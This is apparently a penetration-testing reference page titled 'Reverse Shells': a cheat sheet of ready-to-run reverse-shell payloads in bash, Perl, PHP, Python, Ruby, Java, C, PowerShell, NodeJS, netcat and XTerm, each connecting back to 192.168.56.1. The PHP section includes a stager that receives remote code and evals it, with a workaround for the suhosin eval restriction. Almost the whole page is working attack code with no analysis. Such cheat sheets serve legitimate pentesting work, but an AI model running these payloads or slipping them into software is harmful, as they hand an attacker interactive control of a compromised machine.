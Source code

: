 ```yaml
---
layout: default
title: Reverse Shells
parent: General Pentesting
nav_order: 6
---
```


# Reverse Shells
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

### bash

```bash
bash -i >& /dev/tcp/192.168.56.1/443 0>&1
```


### Perl

```perl
perl -e 'use Socket;$i="192.168.56.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


### PHP
```php
php -r '$sock=fsockopen("192.168.56.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```php
<?php
error_reporting(0);
$ip = '192.168.56.1';
$port = 4444;

if (($f = 'stream_socket_client') && is_callable($f)) {
	$s = $f("tcp://{$ip}:{$port}");
	$s_type = 'stream';
}
if (!$s && ($f = 'fsockopen') && is_callable($f)) {
	$s = $f($ip, $port);
	$s_type = 'stream';
}
if (!$s && ($f = 'socket_create') && is_callable($f)) {
	$s = $f(AF_INET, SOCK_STREAM, SOL_TCP);
	$res = @socket_connect($s, $ip, $port);
	if (!$res) {
		die();
	}
	$s_type = 'socket';
}
if (!$s_type) {
	die('no socket funcs');
}
if (!$s) {
	die('no socket');
}
switch ($s_type) {
	case 'stream': $len = fread($s, 4);
		break;
	case 'socket': $len = socket_read($s, 4);
		break;
}
if (!$len) {
	die();
}
$a = unpack("Nlen", $len);
$len = $a['len'];
$b = '';
while (strlen($b) < $len) {
	switch ($s_type) {
	case 'stream': $b .= fread($s, $len-strlen($b));
		break;
	case 'socket': $b .= socket_read($s, $len-strlen($b));
		break;
	}
}
$GLOBALS['msgsock'] = $s;
$GLOBALS['msgsock_type'] = $s_type;
if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) {
	$suhosin_bypass=create_function('', $b); $suhosin_bypass();
}
else {
	eval($b);
}
die();
?>
```


### Python

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("192.168.56.1",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.56.1/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


### XTerm

```bash
xterm -display 192.168.56.1:1
```


### C

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void)
{
 int i; // used for dup2 later
 int sockfd; // socket file descriptor
 socklen_t socklen; // socket-length for new connections

 struct sockaddr_in srv_addr; // client address

 srv_addr.sin_family = AF_INET; // server socket type address family = internet protocol address
 srv_addr.sin_port = htons( 443 ); // connect-back port, converted to network byte order
 srv_addr.sin_addr.s_addr = inet_addr("192.168.56.1"); // connect-back ip , converted to network byte order

 // create new TCP socket
 sockfd = socket( AF_INET, SOCK_STREAM, IPPROTO_IP );

 // connect socket
 connect(sockfd, (struct sockaddr *)&srv_addr, sizeof(srv_addr));

 // dup2-loop to redirect stdin(0), stdout(1) and stderr(2)
 for(i = 0; i <= 2; i++)
  dup2(sockfd, i);

 // magic
 execve( "/bin/sh", NULL, NULL );
}
```


### PowerShell

```powershell
# Setup connection to the attacker listener (change IP and PORT)
$client = New-Object System.Net.Sockets.TCPClient('192.168.56.1', 4444);
# Stream Handle
$stream = $client.GetStream();
# Recv buffer
[byte[]]$bytes = 0..65535|%{0};
# While stream is not empty
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    # Get command (bytes to string)
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    # Execute Command
    $sendback = (iex $data 2>&1 | Out-String);
    # Send back PS header PS C:\Windows\TEMP\>
    $sendback2 = $sendback+'PS '+(pwd).Path + '> ';
    # Convert result (String to bytes)
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    # Send result
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
};
```


### NodeJS

```javascript
(function() {
  var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(4444, "192.168.56.1", function() {
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
  });
  return /a/;
})();
```


### Netcat
```bash
nc -e /bin/sh 192.168.56.1 4444
```

## References and Further Reading
* [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
* [https://github.com/infodox/python-pty-shells/](https://github.com/infodox/python-pty-shells/)
* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)